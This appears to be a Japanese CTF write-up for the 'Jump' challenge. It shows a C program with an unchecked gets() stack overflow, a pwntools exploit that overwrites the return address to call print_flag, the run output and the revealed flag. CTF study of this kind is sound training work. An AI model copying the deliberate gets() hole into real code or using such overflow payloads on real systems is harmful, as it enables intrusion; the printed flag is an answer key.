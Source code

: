 ## Jump (320pt / 37 solves) [★★☆☆]
> ソースコードを見て、フラグを取得してください。
> 
> 
> ただし、以下の条件で動作しています。
> 
> - スタック保護機能（Stack Canary）は無効です。
> - 位置独立実行形式（PIE）は無効です。
> - 本問題は32bit i386環境を前提としています。
> - スタックのアラインメントは4バイトに設定されています。
> - print_flag 関数は必ず `0x21466F42` にロードされます。
> 
> 本問題のターゲットマシンを起動してください。起動が完了したら、VPN接続マシンまたはBrowser Kaliから `nc <ターゲットのIP> 8102` コマンドで接続してください。
> 
> 
> 問題ファイルをダウンロード: Jump.zip
> 
> ZIPのハッシュ値(SHA256): `1a23095d9408b4c9876a813804cb9ccd571752fc20e7fec4625b0b9d5b30822e`

ソースコードが配布されているので見てみる。
```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((section(".flag"))) print_flag() {
    char flag[64] = { 0 };
    FILE* fp = fopen("flag.txt", "r");
    if (!fp) {
        printf("An error occurred while opening the file\n");
        exit(1);
    }
    fread(flag, 1, 64, fp);
    printf("Congratulations! Here's the flag: %s\n", flag);
    exit(0);
}

void greet() {
    char name[16] = { 0 };
    gets(name);
    printf("Hi, %s!\n", name);
}

int main() {
    printf("Tell me your name! : ");
    fflush(stdout);
    greet();
    return 0;
}
```

`gets()`後にサイズチェックがなされていない、典型的BOF問題。Stack CanaryもPIEもないので、セオリー通りオフセットを調べてリターンアドレスを`0x21466F42`に書き換えればOK。
ソルバはこんな感じになった。
```python
from pwn import *

target = './jump'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

addr_print_flag = 0x21466F42

proc = remote(target_ip, 8102)

payload = b'A' * 20
payload += pack(addr_print_flag)

proc.sendlineafter('Tell me your name! : ', payload)

proc.interactive()
```

```
[*] Switching to interactive mode
Hi, AAAAAAAAAAAAAAAAAAAABoF!!
Congratulations! Here's the flag: flag{80F_JUMP_70_FUNC710N}
```

### `flag{80F_JUMP_70_FUNC710N}`

アドレスが`BoF!`のASCII（のリトルエンディアン）になっているという遊び心。